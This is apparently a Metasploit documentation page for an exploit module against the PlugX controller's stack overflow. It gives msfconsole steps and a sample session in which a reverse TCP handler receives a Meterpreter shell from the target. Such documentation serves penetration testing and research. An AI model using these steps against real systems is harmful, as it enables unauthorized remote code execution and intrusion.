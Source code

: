 ## Vulnerable Application

  This module exploits a stack overflow in the Plug-X Controller when handling a larger than expected message.
  This vulnerability can allow remote code execution however it causes a popup message to be displayed on the target before execution is gained.

  A vulnerable version of the software is available here: [PlugX type 1](https://github.com/rapid7/metasploit-framework/files/1243293/9f59a606c57217d98a5eea6846c8113aca07b203e0dcf17877b34a8b2308ade6.zip)

## Verification Steps

  1. Run the application
  2. Start msfconsole
  3. Do: `use exploit/windows/misc/plugx`
  4. Do: `set rhost [ip]`
  5. Do: `set target [target]`
  6. Do: `exploit`
  7. Click OK for the "PeDecodePacket" pop-up on the target
  8. Get a shell

## Scenarios

### Windows XP SP3 with PlugX type 1

```
msf > use exploit/windows/misc/plugx 
msf exploit(plugx) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(plugx) > set target 1
target => 1
msf exploit(plugx) > set verbose true
verbose => true
msf exploit(plugx) > exploit

[*] Started reverse TCP handler on 1.2.3.99:4444 
[*] 1.2.3.4:13579 - Trying target PlugX Type I...
[*] 1.2.3.4:13579 - waiting for response
[*] Sending stage (956991 bytes) to 1.2.3.4
[*] Meterpreter session 1 opened (1.2.3.99:4444 -> 1.2.3.4:1975) at 2017-09-04 19:53:07 -0400
[*] 1.2.3.4:13579 - Server closed connection

meterpreter > getuid
Server username: WINXP\user
```
